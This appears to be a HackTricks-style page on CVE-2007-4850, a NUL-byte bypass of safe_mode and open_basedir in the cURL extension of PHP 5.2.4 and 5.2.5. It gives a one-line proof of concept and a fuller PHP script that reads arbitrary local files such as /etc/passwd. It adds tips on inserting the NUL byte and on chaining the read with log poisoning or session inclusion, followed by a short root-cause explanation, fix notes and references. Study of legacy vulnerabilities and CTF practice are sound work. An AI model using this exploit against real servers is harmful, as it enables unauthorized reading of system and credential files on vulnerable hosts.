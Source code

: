 # PHP 5.2.4 and 5.2.5 PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

This page documents a legacy but still useful-in-CTFs/local-legacy-installs trick to bypass PHP safe_mode/open_basedir checks using the cURL extension on specific PHP 5.2.x builds.

- Affected: PHP 5.2.4 and 5.2.5 with ext/curl enabled.
- Impact: Read arbitrary local files despite safe_mode or open_basedir restrictions (no direct code execution).
- ID: CVE-2007-4850.

From http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

If safe_mode or open_basedir are active and cURL is enabled, the following will return the contents of the current script:

```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```

## More explicit PoC (arbitrary file read)

```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
    echo $resp; // should contain the target file
} else {
    echo "cURL error: $err\n";
}
?>
```

Notes:
- Use double quotes or chr(0) to inject a real NUL byte. Percent-encoding (%00) will not work reliably.
- This is a file read primitive. Combine with other primitives (log poisoning, session file inclusion, etc.) for further escalation when possible.

## Why this works (short)

The vulnerability lies in how PHP 5.2.4/5.2.5 performed safe_mode/open_basedir checks for file:// URLs in ext/curl. The check parsed the URL and validated a path component, but due to NUL-byte handling it validated a different string than the one actually used by libcurl. In practice, the validator could approve the path after the NUL while libcurl used the part before the NUL as the URL container, enabling a bypass that results in reading the file placed after the NUL byte. See the original analysis and the affected macro in curl/interface.c for details. [CVE-2007-4850].

## Constraints and fixes

- Fixed in later 5.2.x (e.g., distro builds patched to 5.2.6) by correcting the parsing/validation in ext/curl.
- Only affects very old PHP deployments; safe_mode was removed in PHP 5.4 and modern builds do not exhibit this behavior.

## See also

Other disable_functions/open_basedir bypasses and modern techniques are collected here:

{{#ref}}
README.md
{{#endref}}



## References

- Ubuntu CVE entry with patch pointers and affected versions: https://ubuntu.com/security/CVE-2007-4850
- Technical writeup with code context (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
